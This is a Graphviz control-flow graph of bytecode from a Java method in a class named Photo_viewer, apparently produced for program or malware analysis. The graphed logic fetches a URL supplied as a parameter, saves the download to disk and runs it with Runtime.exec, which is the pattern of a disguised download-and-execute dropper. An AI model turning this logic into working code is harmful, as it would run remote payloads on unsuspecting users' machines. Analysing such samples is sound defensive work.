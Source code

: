 digraph "" {
    "r0 := @this: Photo_viewer"
    "new java.net.URL"
    "r0 := @this: Photo_viewer"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "load.r r0"
    "dup1.r"->"load.r r0";
    "push \"URL_CODE\""
    "load.r r0"->"push \"URL_CODE\"";
    "virtualinvoke <Photo_viewer: java.lang.String getParameter(java.lang.String)>"
    "push \"URL_CODE\""->"virtualinvoke <Photo_viewer: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Photo_viewer: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"dup1.r";
    "virtualinvoke <java.net.URLConnection: java.lang.String getContentType()>"
    "dup1.r"->"virtualinvoke <java.net.URLConnection: java.lang.String getContentType()>";
    "staticinvoke <Photo_viewer: java.lang.String Generate_Path(java.lang.String)>"
    "virtualinvoke <java.net.URLConnection: java.lang.String getContentType()>"->"staticinvoke <Photo_viewer: java.lang.String Generate_Path(java.lang.String)>";
    "store.r r0"
    "staticinvoke <Photo_viewer: java.lang.String Generate_Path(java.lang.String)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r4"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r4";
    "new java.io.FileOutputStream"
    "store.r r4"->"new java.io.FileOutputStream";
    "store.r $r10"
    "new java.io.FileOutputStream"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "load.r $r10"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 500"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 500";
    "newarray"
    "push 500"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r4"
    "store.r r6"->"load.r r4";
    "load.r r6"
    "load.r r4"->"load.r r6";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r6"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i i0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "ifle load.r $r10"
    "load.i i0"->"ifle load.r $r10";
    "ifle load.r $r10"->"load.r $r10";
    "load.r $r10"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push 0"->"load.i i0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i i0"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"load.r r4";
    "load.r r4"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i0";
    "goto load.i i0"
    "store.i i0"->"goto load.i i0";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"->"return";
    "ifle load.r $r10"->"load.r $r10";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r10"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
